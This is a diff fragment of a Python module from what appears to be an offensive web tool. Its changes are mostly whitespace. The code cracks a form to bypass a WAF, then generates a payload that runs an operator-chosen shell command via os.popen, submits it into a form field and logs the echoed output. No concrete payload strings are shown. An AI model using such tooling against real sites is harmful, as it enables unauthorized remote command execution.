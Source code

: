 ```
         return {
             CALLBACK_PREPARE_FULLPAYLOADGEN: self.callback_prepare_fullpayloadgen,
             CALLBACK_GENERATE_FULLPAYLOAD: self.callback_generate_fullpayload,
             CALLBACK_GENERATE_PAYLOAD: self.callback_generate_payload,
             CALLBACK_SUBMIT: self.callback_submit,
             CALLBACK_TEST_FORM_INPUT: self.callback_test_form_input
         }.get(callback_type, default_handler)(data)
@@ -86,15 +91,15 @@
         self.result = None
         self.taskid = taskid
         self.form = form
 
         self.flash_messages = []
         self.messages = []
         self.callback = CallBackLogger(self.flash_messages, self.messages)
-        
+
         self.cracker = FormCracker(
             url=url,
             form=form,
             requester=Requester(
                 interval=interval,
                 user_agent=DEFAULT_USER_AGENT
             ),
@@ -104,79 +109,101 @@
     def run(self):
         self.result = self.cracker.crack()
         if self.result:
             self.messages.append(
                 f"WAF已绕过"
             )
 
+
 class InteractiveTaskThread(threading.Thread):
     def __init__(self, taskid, cracker, field, full_payload_gen, cmd):
         super().__init__()
         self.taskid = taskid
         self.cracker = cracker
         self.field = field
         self.full_payload_gen = full_payload_gen
         self.cmd = cmd
 
         self.flash_messages = []
         self.messages = []
         self.callback = CallBackLogger(self.flash_messages, self.messages)
-        
+
         self.cracker.callback = self.callback
 
     def run(self):
         payload, will_print = self.full_payload_gen.generate(
-            OS_POPEN_READ, 
+            OS_POPEN_READ,
             self.cmd
         )
         if not will_print:
             self.messages.append(
                 f"此payload不会产生回显"
             )
         r = self.cracker.submit({self.field: payload})
         assert r is not None
         self.messages.append(
             f"提交payload的回显如下："
```